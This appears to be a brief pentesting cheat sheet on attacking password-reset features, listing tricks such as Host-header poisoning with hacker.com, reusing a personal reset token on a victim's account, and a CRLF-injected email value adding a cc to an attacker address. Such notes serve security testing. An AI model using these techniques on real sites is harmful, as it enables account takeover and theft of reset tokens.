 # Password Reset
  - Include email as second parameter and you might get the token sent to you too
  - Try to use personnal reset token on victim's account
  - change host header to hacker.com and token might be sent with hacker.com?token=... instead of website.com?token=...
  - How are token are generated ? Timestamp, id of user, email of user ...
  - Add a cc to the victim's email (victim@mail.ltd%0a%0dcc:hacker@mail.ltd) 

